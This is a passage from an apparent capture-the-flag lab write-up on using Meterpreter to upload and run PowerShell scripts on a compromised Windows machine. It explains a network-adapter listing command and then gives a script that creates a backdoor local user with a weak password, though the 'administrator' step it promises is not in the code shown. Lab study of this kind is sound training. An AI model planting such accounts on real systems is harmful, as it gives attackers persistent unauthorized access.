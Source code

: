 [Hacking with PowerShell](https://ratiros01.medium.com/tryhackme-hacking-with-powershell-bf6dbc5febc9)

### 8.5 Uploading and Running PowerShell Scripts

Now I will create a very simple PowerShell script and run it on the compromised machine

make sure you are in the *meterpreter*.

I made a file called **getnic.ps1**

in the file is a **PowerShell** Command. 

```PowerShell
Get-NetAdapter -Name * -IncludeHidden
```

***PowerShell Script Breakdown***
`Get-NetAdapter -Name * -IncludeHidden`

`Get-NetAdapter`
- **Function**: Retrieves basic properties of network adapters.
- **Details**: Shows adapter name, interface description, status, MAC address, and speed.

`-Name *`
- **Parameter**: `-Name`
- **Function**: Specifies which network adapters to get.
- **Usage**: The use of `*` (asterisk) indicates a wildcard selection, meaning all network adapters are included.

`-IncludeHidden`
- **Parameter**: `-IncludeHidden`
- **Function**: Includes network adapters not visible in the Network Connections folder.
- **Usage**: Shows hidden adapters like those not in use, system devices, or virtual adapters.

This command is particularly useful for:
- Detailed network diagnostics.
- Configuration tasks in environments with virtual or hidden network devices.


We will now upload the file via the meterpreter 

![](attachment/d21fa978aaba2f5f12104fc9bf1cbdd4.png)
> Figure 6 | uploading PowerShell script


Go back into shell from meterpreter to run the PowerShell script. shell | powershell

you can really have a lot of fun with this, you can even create a script that adds a user as administrator 

`ris:Windows`
```powershell
# PowerShell script to add a new administrator user on older versions of Windows

# Defining the username and password
$username = "00xNetrunner"
$password = "123456"

# Creating the new local user using net user
$createUser = net user $username $password /add
if ($LASTEXITCODE -eq 0) {
    Write-Host "User $username created successfully."
} else {
    Write-Host "Failed to create user $username."
    exit
}
```